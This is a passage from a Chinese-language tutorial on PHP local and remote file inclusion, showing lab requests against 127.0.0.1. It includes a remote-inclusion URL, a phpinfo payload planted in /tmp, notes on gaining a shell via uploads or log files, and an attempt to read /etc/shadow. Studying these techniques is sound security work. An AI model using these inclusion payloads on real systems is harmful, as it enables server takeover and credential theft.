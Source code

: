 都关闭：`allow_url_include Off`、`allow_url_fopen Off`

跟上面的效果是一样的  


都开启：`allow_url_include On`、`allow_url_fopen On`

远程包含、本地包含都可以  

`http://127.0.0.1:8099/?lfi=123.txt`

`http://127.0.0.1:8099/?lfi=http://10.101.177.100:8099/123.txt`

`http://127.0.0.1:8099/?lfi=http://127.0.0.1/123.txt`(跟第一个一个道理)  

这三种都是可以的，可见远程文件包含危害比较大  


### 本地文件包含利用  

跟案例一样，可以上传一个`xxx.txt、图片、xxxx`,但是它的内容是带有php标签的内容，就可以被执行。  

上传要看程序，大多数时候会有限制文件类型、后缀名等  

#### 本地包含有哪些可能  

* 上传可上传的文件结合包含GETSHELL  
* 包含日志文件GETSHELL

首先在/tmp目录下创建一个文件tmp

tmp
```
<?php phpinfo();?>
```

![](assets/markdown-img-paste-20180412190039128.png)

可以被执行`http://127.0.0.1:8099/?lfi=/tmp/tmp`

![](assets/markdown-img-paste-20180412204203237.png)

`http://127.0.0.1:8099/?lfi=/etc/shadow`显示`Permission denied`
